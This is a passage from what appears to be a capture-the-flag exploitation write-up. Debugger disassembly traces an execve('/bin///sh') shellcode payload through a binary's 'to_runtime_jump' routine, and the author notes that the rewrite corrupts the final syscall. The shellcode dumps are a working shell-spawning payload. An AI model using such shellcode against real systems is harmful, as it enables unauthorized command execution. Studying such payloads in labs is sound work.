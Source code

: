 ```
   0x0000013371337229:  xor    edx,edx
   0x000001337133722b:  push   0x3b
   0x000001337133722d:  pop    rax
   0x000001337133722e:  syscall 
```

It's intact!

If we step through to the end of `to_runtime_jump`, we'll find that we somehow return to the destination of the jump:

```
────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55555555735a <to_runtime_jump+124> popf   
   0x55555555735b <to_runtime_jump+125> pop    rsp
   0x55555555735c <to_runtime_jump+126> add    rsp, 0x8
 → 0x555555557360 <to_runtime_jump+130> ret    
   ↳  0x13371337200                  push   0x68
      0x13371337202                  movabs rax, 0x732f2f2f6e69622f
      0x1337133720c                  push   rax
      0x1337133720d                  mov    rdi, rsp
      0x13371337210                  push   0x1016972
      0x13371337215                  xor    DWORD PTR [rsp], 0x1010101
────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "piss1", stopped 0x555555557360 in to_runtime_jump (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────── trace ────
```

... but our syscall has now suffered the same fate before we were able to execute it.

```assembly
gef➤  disass 0x13371337200,+64
Dump of assembler code from 0x13371337200 to 0x13371337240:
   0x0000013371337200:  push   0x68
   0x0000013371337202:  movabs rax,0x732f2f2f6e69622f
   0x000001337133720c:  push   rax
   0x000001337133720d:  mov    rdi,rsp
   0x0000013371337210:  push   0x1016972
   0x0000013371337215:  xor    DWORD PTR [rsp],0x1010101
   0x000001337133721c:  xor    esi,esi
   0x000001337133721e:  push   rsi
   0x000001337133721f:  push   0x8
   0x0000013371337221:  pop    rsi
   0x0000013371337222:  add    rsi,rsp
   0x0000013371337225:  push   rsi
   0x0000013371337226:  mov    rsi,rsp
   0x0000013371337229:  xor    edx,edx
   0x000001337133722b:  push   0x3b
   0x000001337133722d:  pop    rax
   0x000001337133722e:  pushw  0x0
   0x0000013371337232:  pushw  0x133
   0x0000013371337236:  pushw  0x7133
   0x000001337133723a:  pushw  0x7230
   0x000001337133723e:  pushw  0x0
End of assembler dump.
```
